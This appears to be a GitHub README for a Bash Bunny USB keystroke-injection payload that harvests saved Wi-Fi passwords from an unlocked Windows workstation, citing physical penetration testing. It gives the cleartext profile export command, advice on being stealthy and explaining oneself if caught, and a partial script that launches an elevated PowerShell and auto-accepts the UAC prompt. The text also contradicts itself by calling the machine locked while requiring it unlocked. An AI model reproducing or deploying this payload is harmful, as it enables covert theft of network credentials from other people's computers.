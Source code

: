 # BashBunny-Script-6
In this I am creating a Bash Bunny Script to hack the credentials from a locked machine
In this script I wanted to try and hack the wireless credentials form a locked machine through bash bunny

I took the reference from the below link

https://blog.didierstevens.com/2017/04/06/quickpost-using-my-bash-bunny-to-snag-creds-from-a-locked-machine/

 Basically, what this module does is force an administrator command prompt to run and then issue the following command
 
 netsh wlan export profile key=clear
  
 Since the machine has to be unlocked anyway, you might be wondering why not just open a command prompt and run the above command manually? Why bother with the Bash Bunny? Here is why: When you are doing a physical penetration test or red team engagement you will often find unlocked workstations. If you are going to collect data from such a workstation it is much easier to be stealthy if all you have to do is plug-in a USB. You would not necessarily even need to sit down at the computer. Let’s face it, typing on someone else’s keyboard is definitely a red flag if someone were to notice you but standing near someone’s desk (while you wait about 7 seconds for the Bash Bunny to do its job) can be much easier “explained” if you get caught.
 
Here is how to prep and launch the attack:

First, put the bunny in arming mode (switch position 3, toward the insertion point) and grab the payload files


I tried with the script below 


# Source bunny_helpers.sh to get the environment

source bunny_helpers.sh

# Set language accordingly ( Here I have set it to US English)

Q SET_LANGUAGE US

ATTACKMODE HID STORAGE

LED B 200

# Launch Powershell As Admin

Q GUI r

Q DELAY 100

Q STRING powershell Start-Process powershell // This will start the powershell

Q ENTER

# Bypass UAC

Q DELAY 3000

Q ALT y     // Q ALT y” command means to enter the letter “y” when the UAC prompt is presented 

Q ENTER    // This is for the the UAC elevation permission

Q DELAY 500


To launch the attack move the switch to the switch position where you stored the payloads, in Switch 1 or Switch 2

Then, Plug it into the Unlocked Machine.

Each of these files contains the SSID and where possible (WEP/WPA-PSK &WPA2-PSK), the passphrase:

